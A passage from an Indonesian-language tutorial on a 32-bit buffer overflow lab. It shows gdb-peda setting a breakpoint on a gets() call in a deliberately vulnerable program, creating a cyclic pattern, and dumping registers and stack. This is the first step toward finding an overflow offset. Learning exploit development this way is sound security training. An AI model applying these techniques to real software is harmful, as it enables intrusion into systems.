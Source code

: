 ```bash
End of assembler dump.
```

kemudian diset breakpoint pada line 14 atau alamat 0x080491e9

```bash
gdb-peda$ b *0x080491e9
Breakpoint 1 at 0x80491e9: file vuln_program.c, line 14.
```

untuk membuat inputan random sebanyak 100 karakter dengan pattern create

```bash
gdb-peda$pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

menjalankan aplikasinya 

```bash
gdb-peda$ run
Starting program: ./vuln32 
give me your input :)
[----------------------------------registers-----------------------------------]
EAX: 0xffffd618 --> 0x0 
EBX: 0x804c000 --> 0x804bf14 --> 0x1 
ECX: 0xf7fb6890 --> 0x0 
EDX: 0x17 
ESI: 0xf7fb5000 --> 0x1d9d6c 
EDI: 0xf7fb5000 --> 0x1d9d6c 
EBP: 0xffffd648 --> 0xffffd658 --> 0x0 
ESP: 0xffffd600 --> 0xffffd618 --> 0x0 
EIP: 0x80491e9 (<foo+43>: call   0x8049030 <gets@plt>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80491e2 <foo+36>: sub    esp,0xc
   0x80491e5 <foo+39>: lea    eax,[ebp-0x30]
   0x80491e8 <foo+42>: push   eax
=> 0x80491e9 <foo+43>: call   0x8049030 <gets@plt>
   0x80491ee <foo+48>: add    esp,0x10
   0x80491f1 <foo+51>: nop
   0x80491f2 <foo+52>: mov    ebx,DWORD PTR [ebp-0x4]
   0x80491f5 <foo+55>: leave
Guessed arguments:
arg[0]: 0xffffd618 --> 0x0 
[------------------------------------stack-------------------------------------]
0000| 0xffffd600 --> 0xffffd618 --> 0x0 
0004| 0xffffd604 --> 0xf7fb5000 --> 0x1d9d6c 
0008| 0xffffd608 --> 0xf7e0cb39 (add    ebx,0x1a84c7)
0012| 0xffffd60c --> 0x80491ca (<foo+12>: add    ebx,0x2e36)
0016| 0xffffd610 --> 0xf7fb5000 --> 0x1d9d6c 
0020| 0xffffd614 --> 0xf7fb5000 --> 0x1d9d6c 
0024| 0xffffd618 --> 0x0 
0028| 0xffffd61c --> 0xf7e0cc7b (add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0x080491e9 in foo () at vuln_program.c:14
14     gets(buffer);
gdb-peda$
```
